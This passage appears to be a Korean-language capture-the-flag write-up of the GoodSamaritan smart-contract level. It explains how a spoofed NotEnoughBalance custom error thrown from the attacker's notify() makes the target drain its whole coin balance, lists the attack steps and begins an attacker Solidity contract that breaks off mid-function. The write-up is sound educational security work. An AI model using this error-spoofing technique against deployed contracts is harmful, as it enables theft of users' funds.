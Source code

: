 ``` solidity
    }
}
```

------------------------------------------------------------------------

## 취약점 분석

### 핵심 취약점: Custom Error 조작

-   `NotEnoughBalance()` 에러가 발생하면 GoodSamaritan은 잔액 부족으로
    오해\
-   이 에러는 Wallet에서만 발생해야 하지만 **notify() 함수에서 직접 발생
    가능**\
-   공격자는 `notify()`에서 가짜 `NotEnoughBalance()` 에러를 발생시켜
    `transferRemainder()` 실행 유도 가능

------------------------------------------------------------------------

## 공격 시나리오

1.  `requestDonation()` 호출\
2.  `wallet.donate10()` 실행 (잔액 충분)\
3.  `coin.transfer(10)` 실행\
4.  `notify(10)` 호출 시 **가짜 NotEnoughBalance 에러 발생**\
5.  GoodSamaritan이 잔액 부족으로 오해 → `transferRemainder()` 실행\
6.  모든 코인 탈취

------------------------------------------------------------------------

## 공격 구현

### 공격 컨트랙트

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

interface IGoodSamaritan {
    function requestDonation() external returns (bool enoughBalance);
}

interface ICoin {
    function balances(address) external view returns (uint256);
}

contract AttackGoodSamaritan {
    error NotEnoughBalance();  // 가짜 에러 정의
    
    IGoodSamaritan public goodSamaritan;
    ICoin public coin;
    
    constructor(address _goodSamaritan, address _coin) {
        goodSamaritan = IGoodSamaritan(_goodSamaritan);
        coin = ICoin(_coin);
    }
    
    function attack() external {
        goodSamaritan.requestDonation();
    }
    
    function notify(uint256 amount) external {
        if (amount == 10) {
```